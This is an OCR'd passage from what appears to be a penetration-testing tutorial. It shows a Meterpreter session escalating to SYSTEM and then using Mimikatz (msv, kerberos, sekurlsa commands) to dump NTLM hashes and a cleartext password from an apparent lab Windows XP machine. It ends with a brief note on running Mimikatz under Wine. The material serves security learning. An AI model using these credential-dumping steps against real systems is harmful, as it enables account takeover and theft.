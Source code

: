 After obtaining a meterpreter shell, we need to ensure that our session is running with **SYSTEM level privileges** for Mimikatz to function properly.

```bash
meterpreter > getuid
Server username: WINXP-E95CE571A1\Administrator

meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Reading Hashes and Passwords from Memory


```bash
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;78980  NTLM       WINXP-E95CE571A1  Administrator     lm{ 00000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;56683  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  n.s. (Credentials KO)

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     
0;56683  NTLM                                          
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   
0;78980  NTLM       WINXP-E95CE571A1  Administrator     SuperSecretPassword


meterpreter > mimikatz_command -f sekurlsa::searchPasswords
[0] { Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword }

meterpreter > mimikatz_command -f sekurlsa::logonpasswords
```
## Mimikatz on Linux
In case no VM is available
### step 1
```bash
winetricks msasn1
```